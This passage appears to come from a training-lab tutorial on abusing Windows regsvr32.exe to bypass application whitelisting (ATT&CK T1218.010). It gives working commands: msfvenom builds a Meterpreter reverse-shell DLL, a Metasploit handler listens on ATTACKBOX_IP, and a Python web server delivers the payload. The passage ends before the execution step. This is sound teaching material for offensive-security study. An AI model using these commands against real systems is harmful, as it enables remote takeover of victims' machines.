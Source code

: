 ### Regsvr32

Regsvr32 is a Microsoft command-line tool to register and unregister Dynamic Link Libraries (DLLs)  in the Windows Registry. The regsvr.exe binary is located at:

- C:\Windows\System32\regsvr32.exe for the Windows 32 bits version
- C:\Windows\SysWOW64\regsvr32.exe for the Windows 64 bits version

Besides its intended use, regsvr32.exe binary can also be used to execute arbitrary binaries and bypass the Windows Application Whitelisting. According to [Red Canary](https://redcanary.com/) reports, the regsvr32.exe binary is the third most popular [ATT&CK technique](https://attack.mitre.org/techniques/T1218/010/). Adversaries leverage regsvr32.exe to execute native code or scripts locally or remotely. The technique used in the regsvr32.exe uses trusted Windows OS components and is executed in memory, which is one of the reasons why this technique is also used to bypass application whitelisting. 

Let's try to apply this technique in real life. First, we need to create a malicious DLL file using msvenom and set up our  Metasploit listener to receive a reverse shell. Note that we will be creating a malicious file that works for 32bit operating systems. We will be using the regsvr32.exe Application Whitelisting Bypass technique to run a command on a target system.  

Terminal

```shell-session
user@machine$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f dll -a x86 > live0fftheland.dll 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload 
No encoder specified, outputting raw payload 
Payload size: 375 bytes 
Final size of dll file: 8704 bytes 

user@machine$ user@machine$ msfconsole -q 
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp 
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp 
msf6 exploit(multi/handler) > set LHOST ATTACKBOX_IP
LHOST => ATTACKBOX_IP
msf6 exploit(multi/handler) > set LPORT 443 
LPORT => 443 
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on ATTACKBOX_IP:443 
```

Note that we specified the output type as DLL using the-f argument. Once the malicious DLL file is generated, we need to deliver the payload to the victim machine. We will do this by using a webserver to serve the DLL file on our attacking machine as follows,

Terminal

```shell-session
user@machine$ python3 -m http.server 1337
```

From the victim machine, visit the webserver of the attacking machine on port 1337 that we specify. Note that this port can be changed with your choice!
